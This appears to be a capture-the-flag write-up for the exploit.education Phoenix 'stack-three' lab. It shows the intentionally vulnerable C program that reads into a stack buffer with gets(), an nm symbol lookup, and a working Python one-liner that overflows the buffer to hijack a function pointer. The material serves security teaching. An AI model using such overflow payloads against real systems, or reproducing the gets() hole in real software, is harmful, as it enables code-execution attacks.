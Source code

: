## Stack Three
Stack Three looks at overwriting function pointers stored on the stack.

## Source Code
```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

## Challenge
The aim is to execute the function `complete_level` by modifying the `fp` variable.

## Solution
`locals.fp` is a function pointer and the function it points to gets called (`locals.fp()`).
We can overwrite it's value with the address of the function `complete_level()` in order to execute it.

### The Plan
Leverage `gets()` to overflow `locals.buffer` and write the address of `complete_level()` to `locals.fp`.

### Breaking it
> An `ELF` program's symbol table holds information needed to locate and relocate a program's symbolic definitions and references.
Symbols are a symbolic reference to some type of data or code such as a global variable or function.

Among the symbols we can find the address to `complete_level()`.
```console
user@phoenix-amd64:~$ nm /opt/phoenix/amd64/stack-three
0000000000600958 d _DYNAMIC
0000000000600ac8 d _GLOBAL_OFFSET_TABLE_
0000000000600940 d __CTOR_END__
0000000000600938 d __CTOR_LIST__
0000000000600950 D __DTOR_END__
0000000000600948 d __DTOR_LIST__
00000000004008f0 r __EH_FRAME_BEGIN__
0000000000400930 r __FRAME_END__
0000000000400888 r __GNU_EH_FRAME_HDR
0000000000600b18 D __TMC_END__
0000000000600b18 B __bss_start
0000000000400740 t __do_global_ctors_aux
00000000004005e0 t __do_global_dtors_aux
0000000000600b10 D __dso_handle
                 U __libc_start_main
0000000000600b18 D _edata
0000000000600b90 B _end
0000000000400782 T _fini
00000000004004b0 T _init
0000000000400530 T _start
0000000000400546 T _start_c
000000000040069d T complete_level
0000000000600b40 b completed.5577
0000000000400570 t deregister_tm_clones
0000000000600b48 b dtor_idx.5579
                 U exit
                 U fflush
0000000000400670 t frame_dummy
                 U gets
00000000004006b5 T main
0000000000600b60 b object.5589
                 U printf
                 U puts
00000000004005a0 t register_tm_clones
0000000000600b20 B stdout
```
`0x000000000040069d` -> `complete_level()`
> Notice an address in `x64` architecture is 64 bits (8 bytes), also called a `QWORD`.

We know `locals.fp` is initialized to `NULL`, thus it is zerod out (`0x0000000000000000`) and because the system is `little-endian` we only need to write the least significant bytes (`0x40069d`).
![](/images/stack-3/0.png)

```console
user@phoenix-amd64:~$ python -c "print 'a'*64 + '\x9d\x06\x40'" | /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
🥳
